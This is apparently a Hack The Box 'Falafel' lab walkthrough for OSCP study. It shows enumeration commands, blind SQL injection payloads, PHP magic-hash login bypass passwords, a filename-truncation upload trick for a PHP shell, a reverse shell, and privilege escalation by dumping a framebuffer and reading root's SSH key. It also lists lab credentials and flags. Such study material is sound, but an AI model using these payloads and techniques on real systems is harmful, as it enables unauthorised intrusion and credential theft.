{kind=link}
falafel

nmap
nmap shows standard ports
22 running OpenSSH 7.2p2
and 80 running Apache 2.4.18
http


gobuster
we'll use gobuster next to see what type of directories are on the webservergobuster dir -u 10.10.10.73 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php


/login.php
sqlmap

sqlmap --user-agent="Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101" -r request.txt --level=5 =p username -risk=3 --string="Wrong identification"

wfuzz
wfuzz -c -z file,names.txt --sc 200 -d "username=FUZZ&password=test" http://10.10.10.73/login.phpwe get false positives for active usernames because our wfuzz query returns all server responses with a status code of 200 (which every attempt gets regardless of whether or not the user exists)

wfuzz -hw 657
setting the status code to 200 does not affect wfuzz's results, we can hide the server response words that are different than 657 with -hw 657 so we get responses of users that existwfuzz -c -z file,names.txt --hw 657 -d "username=FUZZ&password=test" http://10.10.10.73/login.php

we see our users are admin and chris! (their word count is 659)
crackstation

manual sql injection (blind boolean)
Since sqlmap is not allowed on the OSCP exam it is important to have an understanding exactly how the login webpage was vulnerable to an sql injectionburp suite will help us here
capturing a login POST request and sending it to responder we see

notice that when typing in a valid user into the login form gets a different server response than an inexistant user:
 
note that the server response byte size is different when a user is valid as well:

 
so 7393 bytes is a successful sql query and 7376 is unsuccessful
username=admin'
standard sql query looks likeselect * from users where username = ‘admin’ and password = ‘admin’
however by injecting an extra single quote trailing username=admin' creates and unequal amount of quotes and allows us to comment out the rest of the statement with “-- -” which turns our original sql query valid:
select * from users where username = ‘admin’' -- -
 
* is a wildcard regularly, but it is not a wildcard in sql
admin' and password like ‘*’ -- -
is an invalid statement

% is a wildcard in SQL
admin' and password like ‘%’-- -
 is valid!
is valid! 
we can use boolean logic to guess each character (0-9 and a-f) in each position (32 bit hash) to figure out admins password through brute forcing, here is an example of checking admin's first character in his password to see if it is True:

and if it is false:

exploit.py
we can write a script to run a nested for loop on characters 0-9A-F to check all 32 positions of the admin password hash to check for positive server responses (length 7393) and have our program print the string out

chris login
php variable juggling
as chris' password hints at, the next step to look for is the fact that php is loosely typed, so it does not require you to declare a variable type when declaring a variablephp variable juggling
the admin password starts with the string “0e”

google php 0e hash collision

because php treats any string that begins with 0e as a floating integer exponential equation (0e -> 10^x) we can look up md5 hashes that collide/also start with 0e
any of these 3 passwords will work for admin's login
240610708
QNKCDZO
aabg7XSs
admin login

upload.php

test.png

 +
+its a bit hard to see but the cmd shows:
CMD: cd /var/www/html/uploads/0826-0440_d2913bf469e45e66; wget 'http://10.10.14.62/test.png'

send php rev shell with magic bytes
lets try sending a cmd.php script that will run system command to the back end and give it magic bytes so the upload feature thinks its a picture:



however, navigating to the destination gives us an error


linux filename character limit
as admin's profile quote says, “know your limits", this is a subtle hint to which we need to abuse the character limit of the webserver's upload function to upload a picture as a png file 3 characters too large for the server to accept, so when the server trims the filename down, it will cut off the .png file extension off of our malicious php file, which we will account to end with .php
to upload a picture as a png file 3 characters too large for the server to accept, so when the server trims the filename down, it will cut off the .png file extension off of our malicious php file, which we will account to end with .phpin short our malcious php code file will look like this: “A”*234.php.png



+


cmd execution



reverse shell
now that we have remote code execution, time to put it to use calling a shell back to our attack machine pen test monkey:
we'll set the reverse shell to our cmd parameter and URL encode it with CTRL-U

after URL-encoding it:


privesc to moshe
looking at our webserver directory /var/www/html:
connection.php

falafelIsReallyTasty
priv esc with leaked creds
ssh'ing into moshe with password falafelIsReallyTasty logs us in
priv esc to yossi
from earlier we issued the ‘w’ command in www-data's terminal and saw yossi was physically connected to the box (tty1)

being a part of the video group signifies the user is about to read the monitor output
we may be able to look at yossi's monitor screen
fb0
we can dump yossi's monitor with fb0 in the /dev directory
funning file on fb.raw we see that it is a Targa image

pnmtopng
in order to dump yoshi's monitor and view it, there's a few things we need to do first1) download pnmtopng
2) Grab the width and the height of the monitor we need to dump, the variables are located in the /sys/class/graphics/fb0/virtual_size file

3) download the following script and save it to raw2png:

4) run the script to convert fb0.raw to a png image

raw2png


we see we've dumped yossi's monitor screen as he is changing his password to MoshePlzStopHackingMe!

ssh into yossi
yossi:MoshePlzStopHackingMe!
priv esc to root
we see we are part of the disk group


debugfs

/root

.ssh

copy the key and save it into id_rsa key file and give it proper permissions

ssh into root

user/root

c866575ed5999e1a878b1494fcb1f9d3

23b79200448c62ffd6f8f2091c001fa1
lessons learned
Check out Rana Khalil's OSCP writeups and prep at https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/